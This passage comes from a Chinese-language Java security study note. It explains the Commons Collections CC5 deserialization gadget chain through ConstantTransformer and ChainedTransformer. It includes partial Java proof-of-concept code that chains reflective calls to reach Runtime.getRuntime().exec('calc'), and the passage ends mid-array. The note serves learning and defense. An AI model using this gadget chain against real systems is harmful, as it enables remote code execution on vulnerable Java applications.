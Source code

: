 ```java
```

但是此时我们产生了两个问题：

1、如何自动执行 `Runtime.getRuntime()` ？ ---> 使用 `ChainedTransformer` 和 `ConstantTransformer` 。

2、如何自动执行 `invokerTransformer.transform()` ？  ---> 应该向前找，谁调用了这个危险方法 。

## 2.2 ChainedTransformer 和 ConstantTransformer

关于第一个问题，我们需要再学习一下另外两个 `Transformer` 接口的实现类，  `ChainedTransformer` 和 `ConstantTransformer` 。

![image](https://github.com/reidmu/sec-note/assets/84888757/00fad1dd-1c59-45eb-8f34-16c63cb3a42e)

其实在 [CC1-TransformedMap](https://github.com/reidmu/sec-note/blob/main/Java-sec/CC1-TransformedMap.md#31-chainedtransformer-%E5%92%8C-constanttransformer) 就学习过 `invokerTransformer`、`ChainedTransformer` 和 `ConstantTransformer` 这三个实现类，现在复习一下。

### 2.2.1 ConstantTransformer

`ConstantTransformer` 是实现了 `Transformer` 接⼝的⼀个类，它的过程就是在构造函数的时候传⼊⼀个对象，并在 `transform` ⽅法将这个对象再返回：

![image](https://github.com/reidmu/sec-note/assets/84888757/01dcb496-48e4-4ecd-9714-d8215768fb87)

所以 `ConstantTransformer` 的作⽤其实就是包装任意⼀个对象，在执⾏回调时返回这个对象，进⽽⽅便后续操作。

### 2.2.2 ChainedTransformer

在 `org.apache.commons.collections.functors.ChainedTransformer#transform` 中可以实现链式调用:

![image](https://github.com/reidmu/sec-note/assets/84888757/eb746319-ec97-4393-82f0-4f17b7989b1b)

`this.iTransformers` 的定义是 `Transformer` 数组

![image](https://github.com/reidmu/sec-note/assets/84888757/fff974d4-0b55-4469-81e5-34987de95949)


`ChainedTransformer` 也是实现了 `Transformer` 接⼝的⼀个类，它的作⽤是将内部的多个 `Transformer` 串在⼀起。

简单来说就是，前⼀个 `transform` 回调方法返回的结果，作为后⼀个 `transform` 回调方法的参数传⼊。

所以我们可以定义一个 `Transformer` 数组，里面放入多个 `InvokerTransformer` 来实现多次反射调用，拿到 `Runtime.getRuntime().exec()` 。

其中很巧妙的是可以通过 `ConstantTransformer` 类的构造方法传入 `Runtime.class` 作为这个 `Transformer` 数组的第一个元素。

📕 CC5_1.java

```java
package org.vulhub.deserializeDemo;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class CC5_1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                // 传入Runtime类
                new ConstantTransformer(Runtime.class),
                // 使用Runtime.class.getMethod()反射调用Runtime.getRuntime()
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                // invoke()调用Runtime.class.getMethod("getRuntime").invoke(null)
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                // 调用exec("calc")
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
```